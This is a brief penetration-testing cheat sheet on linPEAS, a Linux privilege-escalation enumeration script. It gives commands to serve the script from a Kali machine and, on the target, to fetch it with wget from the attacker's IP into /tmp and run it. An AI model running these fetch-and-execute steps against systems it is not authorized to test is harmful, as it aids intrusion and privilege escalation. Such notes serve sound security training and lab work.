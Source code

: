 # linPEAS
- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh

chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```

- https://github.com/carlospolop/PEASS-ng
